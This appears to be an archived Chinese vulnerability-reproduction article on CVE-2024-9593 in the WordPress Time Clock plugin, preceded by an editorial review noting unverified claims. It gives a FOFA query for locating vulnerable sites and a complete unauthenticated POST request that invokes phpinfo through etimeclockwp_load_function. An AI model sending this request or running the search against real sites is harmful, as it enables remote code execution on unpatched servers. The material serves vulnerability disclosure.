



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=1.2.2 in introduction; unauthenticated etimeclockwp_load_function as claimed

- **事实待核（1）**：影响版本段遗漏简介中的&lt;=1.2.2，主产品不应笼统归WordPress基金会插件。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：正文phpinfo请求与492相同原语，缺任意代码/参数机制及响应文字。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（3）**：Content-Length需随正文重算；修复仅打补丁，没有版本或公告。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **操作与副作用边界（4）**：长篇星球/往期内容干扰漏洞实体；保留CNNVD-202410-1955但CNVD空值应删除。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  WordPress Time Clock插件存在远程代码执行漏洞CVE-2024-9593 附POC   
2024-11-8更新  南风漏洞复现文库   2024-11-08 20:36  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. WordPress Time Clock插件简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
WordPress Time Clock插件  
## 2.漏洞描述  
  
WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。该平台支持在PHP和MySQL的服务器上架设个人博客网站。WordPress plugin是一个应用插件。WordPress plugin Time Clock plugin and Time Clock Pro 1.2.2版本及之前版本存在代码注入漏洞，该漏洞源于包含一个远程代码执行。  
  
CVE编号:CVE-2024-9593  
  
CNNVD编号:CNNVD-202410-1955  
  
CNVD编号:  
## 3.影响版本  
  
WordPress Time Clock插件  
  
  
  
WordPress Time Clock插件存在远程代码执行漏洞  
## 4.fofa查询语句  
  
body="/wp-content/plugins/time-clock/" || body="/wp-content/plugins/time-clock-pro/"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/wp-admin/admin-ajax.php?action=etimeclockwp_load_function  
  
漏洞数据包：  
```
POST /wp-admin/admin-ajax.php?action=etimeclockwp_load_function HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
Content-Length: 16
Content-Type: application/x-www-form-urlencoded

function=phpinfo
```  
  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
  
  
  
  
  
  
  
  
  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
[用友U8 Cloud uapbd.refdef.query接口存在SQL注入漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487712&idx=1&sn=c689a918835d8fd979a54c56110824f5&chksm=974b9de7a03c14f149999e411d7abaf6d9f1865f1e575e70aa32983a0d8a2a4b850672eb89b5&scene=21#wechat_redirect)  
  
  
[东胜物流软件AttributeAdapter.aspx接口存在SQL注入漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487698&idx=1&sn=7b6ffc442157b482856dc14161c6639f&chksm=974b9dd5a03c14c3cf5c949514fab1b629d55adfee56ab6ddd39aa3b5d572ab2e951276af74d&scene=21#wechat_redirect)  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
